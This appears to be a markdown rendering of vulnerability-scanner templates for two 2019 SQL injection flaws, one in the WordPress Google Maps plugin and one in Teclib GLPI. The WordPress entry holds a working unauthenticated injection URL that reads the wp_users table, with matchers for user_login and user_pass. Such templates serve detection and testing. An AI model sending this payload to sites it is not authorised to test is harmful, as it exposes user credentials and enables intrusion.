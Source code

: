 
# WordPress Google Maps \<7.11.18 - SQL Injection

## Description

- WordPress Google Maps plugin before 7.11.18 contains a SQL injection vulnerability. The plugin includes /class.rest-api.php in the REST API and does not sanitize field names before a SELECT statement. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2019,wp,wp-plugin,unauth,sqli,wordpress,googlemaps,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/?rest_route=/wpgmza/v1/markers&filter=%7b%7d&fields=%2a%20from%20wp_users--%20-

### Matchers

**Type - word**

- part - body
- words
  1. "user_login"
  2. "user_pass"
  3. "user_nicename"
- condition - and

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# Teclib GLPI \<= 9.3.3 - Unauthenticated SQL Injection

## Description

- Teclib GLPI \<= 9.3.3 exposes a script (/scripts/unlock_tasks.php) that incorrectly sanitizes user controlled data before using it in SQL queries. Thus, an attacker could abuse the affected feature to alter the semantic original SQL query and retrieve database records.
- severity - critical
- tags - cve,cve2019,glpi,sqli,injection
